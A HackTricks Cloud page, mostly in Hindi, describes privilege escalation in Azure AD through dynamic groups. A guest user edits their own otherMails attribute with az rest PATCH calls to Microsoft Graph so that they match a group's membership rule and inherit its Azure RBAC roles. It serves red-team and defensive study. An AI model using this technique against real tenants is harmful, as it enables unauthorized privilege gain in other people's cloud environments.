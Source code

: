 # Az - Dynamic Groups Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**डायनामिक समूह** वे समूह हैं जिनमें **नियमों** का एक सेट कॉन्फ़िगर किया गया है और सभी **उपयोगकर्ता या उपकरण** जो नियमों से मेल खाते हैं, समूह में जोड़े जाते हैं। हर बार जब एक उपयोगकर्ता या उपकरण का **गुण** **बदला** जाता है, डायनामिक नियमों की **पुनः जांच** की जाती है। और जब एक **नया नियम** **बनाया** जाता है, तो सभी उपकरणों और उपयोगकर्ताओं की **जांच** की जाती है।

डायनामिक समूहों में **Azure RBAC भूमिकाएँ** असाइन की जा सकती हैं, लेकिन डायनामिक समूहों में **AzureAD भूमिकाएँ** जोड़ना **संभव नहीं** है।

इस सुविधा के लिए Azure AD प्रीमियम P1 लाइसेंस की आवश्यकता होती है।

## Privesc

ध्यान दें कि डिफ़ॉल्ट रूप से कोई भी उपयोगकर्ता Azure AD में मेहमानों को आमंत्रित कर सकता है, इसलिए, यदि एक डायनामिक समूह का **नियम** उपयोगकर्ताओं को **गुणों** के आधार पर **अनुमतियाँ** देता है जो एक नए **मेहमान** में **सेट** किए जा सकते हैं, तो इस गुणों के साथ एक **मेहमान** **बनाना** और **अधिकार बढ़ाना** संभव है। यह भी संभव है कि एक मेहमान अपने प्रोफ़ाइल का प्रबंधन करे और इन गुणों को बदल सके।

डायनामिक सदस्यता की अनुमति देने वाले समूह प्राप्त करें: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

* **नियम का उदाहरण**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **नियम का विवरण**: कोई भी मेहमान उपयोगकर्ता जिसके पास 'security' स्ट्रिंग वाला एक द्वितीयक ईमेल है, समूह में जोड़ा जाएगा

मेहमान उपयोगकर्ता ईमेल के लिए, निमंत्रण स्वीकार करें और [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView) में **उस उपयोगकर्ता** की वर्तमान सेटिंग्स की जांच करें।\
दुर्भाग्यवश, पृष्ठ गुण मानों को संशोधित करने की अनुमति नहीं देता है, इसलिए हमें API का उपयोग करने की आवश्यकता है:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## संदर्भ

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
